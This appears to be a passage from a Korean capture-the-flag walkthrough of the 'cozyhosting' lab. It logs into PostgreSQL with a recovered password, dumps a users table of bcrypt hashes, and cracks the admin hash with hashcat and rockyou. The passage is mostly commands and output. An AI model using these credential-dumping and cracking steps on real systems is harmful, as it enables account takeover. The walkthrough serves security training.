 ```bash
app@cozyhosting:/app$ psql -U postgres -h localhost # psql 로컬호스트 postgres사용자로 접속 
Password for user postgres: Vg&nvzAQ7XxR
postgres-# \list    #db dump                                                    
                                                                                                               
                                   List of databases                                                                                       
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil                                                           
eges                                                                                                                                       
-------------+----------+----------+-------------+-------------+----------------                                                           
-------                                                                                                                                    
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |                                                                           
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |                                                                           
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres                                                               
      +        
postgres-# \c cozyhosting #cozyhosting db 선택
cozyhosting-# \dt   # table list dump

         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres


cozyhosting=# select * from users;      #users table 내용 dump

   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi

# admin과 kanderson의 password hash값을 알게됐다
                                                                                                                     
```
## hash cracking

```bash
hashid hash.txt 
--File 'hash.txt'--
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
...
```
manchesterunited 비밀번호를 알아냈다  